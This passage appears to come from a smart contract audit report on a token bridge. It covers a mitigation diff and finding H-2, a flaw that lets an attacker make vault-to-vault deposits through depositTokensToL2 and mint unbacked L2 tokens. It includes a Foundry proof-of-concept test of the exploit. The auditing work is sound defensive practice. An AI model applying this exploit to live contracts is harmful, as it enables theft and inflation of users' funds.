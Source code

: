 **Recommended Mitigation:** Consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.

```diff
- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
-   token.transferFrom(from, address(vault), amount);
+   token.transferFrom(msg.sender, address(vault), amount);

    // Our off-chain service picks up this event and mints the corresponding tokens on L2
-   emit Deposit(from, l2Recipient, amount);
+   emit Deposit(msg.sender, l2Recipient, amount);
}
```

### [H-2] Calling `depositTokensToL2` from the Vault contract to the Vault contract allows infinite minting of unbacked tokens

**Description:** `depositTokensToL2` function allows the caller to specify the `from` address, from which tokens are taken.

**Impact:** Because the vault grants infinite approval to the bridge already (as can be seen in the contract's constructor), it's possible for an attacker to call the `depositTokensToL2` function and transfer tokens from the vault to the vault itself. This would allow the attacker to trigger the `Deposit` event any number of times, presumably causing the minting of unbacked tokens in L2.

Additionally, they could mint all the tokens to themselves. 

**Proof of Concept:** Include the following test in the `L1TokenBridge.t.sol` file:

```javascript
function testCanTransferFromVaultToVault() public {
    vm.startPrank(attacker);

    // assume the vault already holds some tokens
    uint256 vaultBalance = 500 ether;
    deal(address(token), address(vault), vaultBalance);

    // Can trigger the `Deposit` event self-transferring tokens in the vault
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), address(vault), vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

    // Any number of times
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), address(vault), vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

    vm.stopPrank();
}
```
